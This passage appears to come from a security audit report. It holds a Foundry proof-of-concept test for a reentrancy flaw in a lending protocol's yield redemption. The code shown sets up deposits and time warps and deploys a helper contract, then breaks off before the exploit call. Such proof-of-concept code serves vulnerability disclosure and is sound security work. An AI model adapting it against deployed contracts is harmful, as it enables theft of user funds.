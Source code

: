 Add the following PoC and contracts to `test/foundry/Borrowing.t.sol`:
```solidity
function test_PoC_ReentrancyInRedeemYields() public {
        uint256 ETH = 1;
        uint24 ethPrice = 388345;
        uint8 strikePricePercent = uint8(IOptions.StrikePrice.FIVE);
        uint64 strikePrice = uint64(ethPrice + (ethPrice * ((strikePricePercent * 5) + 5)) / 100);
        uint256 amount = 10 ether;
        uint256 amountSent = 11 ether;

        uint128 usdtToDeposit = uint128(contractsB.cds.usdtLimit());
        uint256 liquidationAmount = usdtToDeposit / 2;

        // deposit in CDS so there is back funds for the USDa
        address cdsDepositor = makeAddr("depositor");

        {
            vm.startPrank(cdsDepositor);
            contractsB.usdt.mint(cdsDepositor, usdtToDeposit);
            contractsB.usdt.approve(address(contractsB.cds), usdtToDeposit);
            vm.deal(cdsDepositor, globalFee.nativeFee);
            contractsB.cds.deposit{value: globalFee.nativeFee}(
                usdtToDeposit, 0, true, uint128(liquidationAmount), 150000
            );
            
            vm.stopPrank();
        }

        {
            vm.startPrank(USER);
  
            vm.deal(USER, globalFee.nativeFee + amountSent);
            contractsB.borrow.depositTokens{value: globalFee.nativeFee + amountSent}(
                ethPrice,
                uint64(block.timestamp),
                IBorrowing.BorrowDepositParams(
                    IOptions.StrikePrice.FIVE, strikePrice, ETH_VOLATILITY, IBorrowing.AssetName(ETH), amount
                )
            );
            
            vm.stopPrank();
        }

        {
            vm.startPrank(USER);

            vm.deal(USER, globalFee.nativeFee + amountSent);
            contractsB.borrow.depositTokens{value: globalFee.nativeFee + amountSent}(
                ethPrice,
                uint64(block.timestamp),
                IBorrowing.BorrowDepositParams(
                    IOptions.StrikePrice.FIVE, strikePrice, ETH_VOLATILITY, IBorrowing.AssetName(ETH), amount
                )
            );

            vm.stopPrank();
        }
  
        vm.warp(block.timestamp + 25920);
        vm.roll(block.number + 2160);

        ExchangeAbond exchange = new ExchangeAbond(address(contractsB.abond));
```